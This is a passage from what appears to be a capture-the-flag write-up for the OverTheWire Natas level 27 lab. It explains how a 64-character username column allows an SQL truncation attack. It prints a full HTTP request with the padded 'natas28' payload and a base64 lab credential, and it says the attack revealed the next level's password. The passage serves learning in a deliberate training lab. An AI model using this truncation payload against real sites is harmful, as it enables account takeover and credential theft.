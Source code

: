 ![/assets/images/natas/Untitled%2013.png](/assets/images/natas/Untitled%2013.png)

Further looking at the code, what i found interesting is the while loop to print credentials. Well the user is only one, so why there is a need of a loop to print the credentials. It might be the indication of there might be possibility of two users with same username.

![/assets/images/natas/Untitled%2014.png](/assets/images/natas/Untitled%2014.png)

Looking at the table schema the length of username is 64. So sql has this weird property that if we pass username whose length is more than 64, it will truncate the whole value after 64th character.

```php
POST /index.php HTTP/1.1
Host: natas27.natas.labs.overthewire.org
Content-Length: 175
Cache-Control: max-age=0
Authorization: Basic bmF0YXMyNzo1NVRCanBQWlVVSmdWUDViM0JuYkc2T045dURQVnpDSg==
Upgrade-Insecure-Requests: 1
Origin: http://natas27.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas27.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Connection: close

username=natas28++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++1&password=
```

So crafting username in such a way that it has natas28 and a bunch of spaces and using that i was able to create a new user. and Logging with that username and password, we get the password for the natas28.
